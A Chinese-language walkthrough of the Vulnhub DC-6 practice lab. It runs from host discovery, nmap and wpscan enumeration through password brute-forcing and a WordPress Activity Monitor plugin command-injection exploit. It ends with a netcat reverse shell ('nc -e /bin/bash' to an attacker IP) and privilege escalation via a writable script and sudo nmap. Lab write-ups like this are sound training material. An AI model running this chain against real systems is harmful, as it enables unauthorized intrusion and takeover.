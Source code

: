 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [cn-sec.com](https://cn-sec.com/archives/2500916.html)

> 原文始发于微信公众号（入特安全）：Vulnub-wp DC-6

vulnhub-wp DC-6
---------------

本文结构

*   🖳 主机发现 (Host Discover)
    
*   👁 端口扫描 (Port Scan)
    
*   🚪🚶 获取权限
    
*   🛡️ 权限提升
    
*   📖 推荐文章
    

* * *

DC-6 是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。这不是一个过于困难的挑战，因此对于初学者来说应该很棒。

```
sudo netdiscover -i eth0 -r 192.168.1.0/24 Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                                                         21 Captured ARP Req/Rep packets, from 6 hosts.   Total size: 1260                                  _____________________________________________________________________________   IP            At MAC Address     Count     Len  MAC Vendor / Hostname       -----------------------------------------------------------------------------                        192.168.1.5     20:1e:88:ad:fc:55      1      60  Intel Corporate                                         192.168.1.14    08:00:27:e2:b6:88      1      60  PCS Systemtechnik GmbH                           192.168.1.3     a2:86:90:e6:04:98      1      60  Unknown vendor
```

目标是 _192.168.1.14_

```
# Nmap 7.94SVN scan initiated Fri Feb 16 15:50:20 2024 as: nmap -p- -oN nmap_scan -sV -sC --min-rate 5000 192.168.1.14Nmap scan report for 192.168.1.14 (192.168.1.14)Host is up (0.0016s latency).Not shown: 65533 closed tcp ports (reset)PORT   STATE SERVICE VERSION22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)| ssh-hostkey: |   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)80/tcp open  http    Apache httpd 2.4.25 ((Debian))|_http-title: Did not follow redirect to http://wordy/|_http-server-header: Apache/2.4.25 (Debian)MAC Address: 08:00:27:E2:B6:88 (Oracle VirtualBox virtual NIC)Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .# Nmap done at Fri Feb 16 15:50:28 2024 -- 1 IP address (1 host up) scanned in 8.69 seconds
```

发现重定向到`http://wordy/`这个网站，我们把它加入 hosts 文件中 发现主页是一个 wordpress 网站，对其进行扫描

```
wpscan -e vt,vp,u --url http://wordy/[+] admin | Found By: Rss Generator (Passive Detection) | Confirmed By: |  Wp Json Api (Aggressive Detection) |   - http://wordy/index.php/wp-json/wp/v2/users/?per_page=100&page=1 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection) |  Login Error Messages (Aggressive Detection)[+] graham | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) | Confirmed By: Login Error Messages (Aggressive Detection)[+] sarah | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) | Confirmed By: Login Error Messages (Aggressive Detection)[+] jens | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) | Confirmed By: Login Error Messages (Aggressive Detection)[+] mark | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) | Confirmed By: Login Error Messages (Aggressive Detection)
```

发现了很多用户，记录下来，然后尝试一下登录界面的弱口令，没有试出弱口令，那就尝试爆破，因为爆破路径也没有什么有趣的，那攻击向量只有 web 喝 ssh，web 又只有这个登录页面是暴露的。 根据作者的提示，生成一下密码字典

```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

尝试爆破

```
wpscan --url http://wordy -U users -P passwords.txt
```

得到了凭证

登录上之后，发现有一个 _Activity Monitor_，搜索一下有没有漏洞

```
mark:helpdesk01
```

我们使用下面那个，执行之后输入 ip，username，password，然后用 nc 反弹 shell。

```
searchsploit Activity···WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command Injection                                                | php/webapps/45274.htmlWordPress Plugin Plainview Activity Monitor 20161228 - Remote Code Execution (RCE) (Authenticated) (2)                                  | php/webapps/50110.py···
```

用 linpeas.sh 辅助提权脚本枚举信息![](https://cn-sec.com/wp-content/uploads/2024/02/5-1708181769.png)这里有俩个有趣的文件，我们可以在 things-to-do.txt 中发现用户 gaham 的凭证![](https://cn-sec.com/wp-content/uploads/2024/02/0-1708181769.png)我们用 ssh 登录上去，后进行一些枚举，发现可以以 jens 身份运行 backups.sh 脚本，且因为 gaham 用户是 devs 组，对该脚本有修改权限，我们可以在里面加一个`/bin/bash`来启动一个 jens 用户的 shell![](http://cn-sec.com/wp-content/uploads/2024/02/3-1708181770.png)

```
nc -e /bin/bash 192.168.1.13 443
```

或者 jens 的 shell 后，再次使用`sudo -l`进行检查![](http://cn-sec.com/wp-content/uploads/2024/02/10-1708181771.png)然后在 GTFOBins 搜索 nmap`https://gtfobins.github.io/gtfobins/nmap/#sudo`

最终拿到 root 的 shell![](http://cn-sec.com/wp-content/uploads/2024/02/0-1708181772.png)

DC-6 下载地址`https://www.vulnhub.com/entry/[dc](https://cn-sec.com/archives/tag/dc)-6,315/`

DC-6 国外大佬 walkthrough 文章`https://www.sevenlayers.com/index.php/194-vulnhub-[dc](https://cn-sec.com/archives/tag/dc)-6-walkthrough`

GTFOBins 地址`https://gtfobins.github.io/`

个人博客地址`https://rightevil.github.io/`

> 原文始发于微信公众号（入特安全）：[Vulnub-wp DC-6](http://mp.weixin.qq.com/s?__biz=MzkyNTU3MzA2Mw==&mid=2247483840&idx=1&sn=4d15efc5bb35c1dcff4b81600894d084&chksm=c00472a50c4cc1f40db8feefa5492b1eb0b385cba1eeab5c0be95c9f23e0f8f84483f479dfd8&scene=27&key=5f77d834834efca1c34b3f7ef0d57ad107d48eb81662e01b300307fa1ac16e85229cef28d132d566958dc66535be15efa0559175ee8845953ff98bf6f4215e674dee5559b9950d3bf17456cd1fa3a2a3ac625ee9f04145456e3fc4f4d92dd3ec69f08f45358b9b4162e9bb74af5ae8c66a3bb1126ff840ee8dd4798c159e5fb4&ascene=0&uin=MzgxODQ4MjMz&devicetype=Windows+10+x64&version=63090819&lang=zh_CN&countrycode=GY&exportkey=n_ChQIAhIQPL1nz%2BmzDOW7B71olnX7mBLgAQIE97dBBAEAAAAAAKaAC9DvSHkAAAAOpnltbLcz9gKNyK89dVj0w9FX9E7WbgCcu08awLs1CvFUmhYQu5qUSHFJ53boCiaq1eEfJrz3DBDxiGsL3yq20uGwG9KGDY7abriBvSUtYCGeTArtDy1CW%2BlYY9s8KBdwi0OBzwMOLcT0weshJO1rLLnRJzWEaBiWnWgiOGvLYxGS91QqNqN%2Bj72jw4MXhE6LniNiHeJetX7o5lmDuZ08%2B6HAA1JCuEjC3gXuRz2omuKUxeB%2Fmrfe%2BldFMYL2BDWyud2iUbozgYQZ&acctmode=0&pass_ticket=4WGrP8KQEhTm3hIaEj7UZ5%2F5wRmsbxUGPnmGk4r%2BRD%2FKgiru2NQ%2Few0KWlGFRucCeaQsTpGg%2FwM4n5FJGEvhfA%3D%3D&wx_header=1)

http://cn-sec.com/archives/2500916.html